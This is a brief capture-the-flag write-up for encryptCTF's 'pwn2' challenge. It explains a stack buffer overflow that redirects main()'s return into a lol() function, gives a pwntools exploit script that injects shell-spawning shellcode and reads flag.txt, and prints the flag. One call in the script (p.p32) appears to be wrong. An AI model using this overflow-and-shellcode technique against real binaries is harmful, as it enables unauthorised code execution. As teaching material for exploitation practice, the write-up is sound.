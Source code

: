# Description
I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?

## Solution
What we can do to retrieve the flag is overflowing the buffer `buffer`, overwriting `main()` return address to be `lol()` function entrypoint. We'll also need to provide shellcode where lol stack base will be.

```python
from pwn import *

context.binary = "./pwn2"

p = process()

p.send(b"A" * 44)
p.p32(context.binary.functions["lol"].address + 3)
p.sendline(asm(shellcraft.sh()))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
encryptCTF{N!c3_j0b_jump3R}
```